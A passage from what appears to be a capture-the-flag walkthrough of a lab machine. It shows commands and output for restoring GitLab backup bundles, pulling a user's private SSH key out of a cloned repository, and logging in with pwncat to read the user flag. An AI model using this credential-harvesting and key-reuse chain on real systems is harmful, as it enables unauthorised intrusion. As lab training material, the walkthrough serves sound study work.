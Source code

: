 	  └── uploads.tar.gz

* there are bunch of files with 2 gitlab repos and while i run the `gitlab-backup` command i see that it backup to dexter repos from gitlab -

	  * dexter/securewebsite (@hashed/2c/62/2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3) ... [DONE]
	  * dexter/securedocker (@hashed/19/58/19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7) ... [DONE]

* after git clone both bundle files -

	  ❯ git clone 19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7.bundle
	  Cloning into '19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7'...
	  Receiving objects: 100% (10/10), done.

	  ❯ git clone 2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3.bundle
	  Cloning into '2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3'...
	  Receiving objects: 100% (66/66), 7.21 MiB | 75.37 MiB/s, done.
	  Resolving deltas: 100% (5/5), done.

* when tree the cloned dirs i found ssh folder inside dexter dir -
```diff
❯ tree -a @hashed
@hashed
├── 19
│   └── 58
│       ├── 19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7
│       │   ├── create_gitlab.sh
│       │   ├── dexter
│       │   │   ├── recipe.url
│       │   │   ├── .ssh
│       │   │   │   ├── authorized_keys
+       │   │   │   └── id_rsa
<snippet>
52 directories, 112 files
```
* find dexter ssh key

## ssh USER:dexter
```diff
❯ pwncat -i ./id_rsa dexter@10.10.10.216
[23:43:42] warning: 10.10.10.216: no working persistence methods found                                                                                                        connect.py:222
[23:43:53] new host w/ hash ae368be9697cee6ab2cd4190bba7e71b                                                                                                                   victim.py:321
[23:44:12] pwncat running in /usr/bin/bash                                                                                                                                     victim.py:354
[23:44:18] pwncat is ready 🐈                                                                                                                                                  victim.py:771
[23:44:27] user not found in database; not storing password                                                                                                                   connect.py:348
(remote) dexter@laboratory:/$ id
+uid=1000(dexter) gid=1000(dexter) groups=1000(dexter)
(remote) dexter@laboratory:/$ cd
+(remote) dexter@laboratory:/home/dexter$ cat user.txt
23fa0c2d************************
```
